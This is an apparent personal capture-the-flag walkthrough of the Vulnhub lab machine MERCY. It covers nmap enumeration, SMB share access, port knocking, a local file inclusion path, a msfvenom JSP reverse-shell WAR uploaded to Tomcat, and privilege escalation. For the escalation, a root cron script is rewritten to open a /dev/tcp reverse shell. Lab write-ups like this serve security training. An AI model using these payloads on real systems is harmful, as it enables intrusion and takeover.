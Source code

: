 #port-knocking #tomcat #LFI #smb #heavy-enum #lateral-esc 
# Nmap
```
PORT     STATE    SERVICE     VERSION
22/tcp   filtered ssh
53/tcp   open     domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu
80/tcp   filtered http
110/tcp  open     pop3        Dovecot pop3d
|_pop3-capabilities: UIDL SASL STLS TOP RESP-CODES AUTH-RESP-CODE PIPELINING CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp  open     imap        Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: more have post-login IMAP4rev1 listed capabilities STARTTLS SASL-IR ENABLE LOGINDISABLEDA0001 IDLE OK Pre-login ID LOGIN-REFERRALS LITERAL+
445/tcp  open     af46c7670   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
993/tcp  open     ssl/imap    Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_imap-capabilities: more have IMAP4rev1 post-login listed AUTH=PLAINA0001 SASL-IR ENABLE capabilities IDLE OK Pre-login ID LOGIN-REFERRALS LITERAL+
995/tcp  open     ssl/pop3    Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-08-24T13:22:55
|_Not valid after:  2028-08-23T13:22:55
|_pop3-capabilities: UIDL USER SASL(PLAIN) TOP RESP-CODES AUTH-RESP-CODE PIPELINING CAPA
8080/tcp open     http        Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
| http-robots.txt: 1 disallowed entry 
|_/tryharder/tryharder
|_http-title: Apache Tomcat
MAC Address: 08:00:27:80:6F:A3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: mercy
|   NetBIOS computer name: MERCY\x00
|   Domain name: \x00
|   FQDN: mercy
|_  System time: 2023-09-14T00:57:07+08:00
| smb2-time: 
|   date: 2023-09-13T16:57:07
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -2h40m04s, deviation: 4h37m07s, median: -4s
```

ports: 22 , 53 , 80 , 110 , 139 , 143 , 445 , 993 , 995 , 8080

# Port 8080
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230913225449.png]]
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230913231433.png]]
or why else it would give us the user-enum file
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914003917.png]]
# PORT 139
courtesy of enum4linux:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914003628.png]]

`qiu`
`password`
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914003539.png]]

when we go to the .private we see 2 directories `opensesme` `secrets` , and when we get the files of those:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005027.png]]

after port knocking:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005340.png]]
we get the port 80 open:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005659.png]]
in robots.txt:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005650.png]]
also in dirsearch:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005722.png]]
### mercy endpoint 
had this file  with dir-listing:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005808.png]]
### nomercy:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005840.png]]
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914005926.png]]
after this:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914010128.png]]
```txt
/windows/code.php?file=../../../../../../etc/passwd
```
at:
`http://192.168.211.193/nomercy/`
#### Login.html:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230914010448.png]]
we can get the file we mentioned above for the credentials:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916155920.png]]
`thisisasuperduperlonguser` `heartbreakisinevitable`
`fluffy` `freakishfluffybunny`
then we upload the mailicious war file:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916160128.png]]
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.211.130 LPORT=443 -f war -o maliciious_192_168_211_130_443.war
```
it looks like this:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916160521.png]]
we take the stable shell via:
***
step 1:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***
# Priv Esc
we have 4 users:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916160809.png]]
everyone's password is password except for `pleadformercy`
### superduperlonguser:
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916161050.png]]
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916161135.png]]
### QIU
when we look at the qiu's bash history there were some commands {look above ss} with sudo's permission , can we try?:
but it first ran the configprint file
nothing works!!!
### Fluffy
This user had the password same as that of manager-gui in the tomcat-user file , so when we get to it's shell insde the .private folder there was a .secret folder was containing the timestamp file which had the 777 permission , which contained some code that was writing the time to the /var/www/html file time which showed the current time 
IG that this must be cornjob for root as it was owned by root
we edit it and put `nc -e ....` but this doesn't work as the nc here is openbsd one 
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916181213.png]]
so we used this command:
```bash
0<&196;exec 196<>/dev/tcp/192.168.211.130/4444; sh <&196 >&196 2>&196
```
now we wait......
and.......
![[walkthroughs/Vulnhub/MERCY/IMG/Pasted image 20230916181017.png]]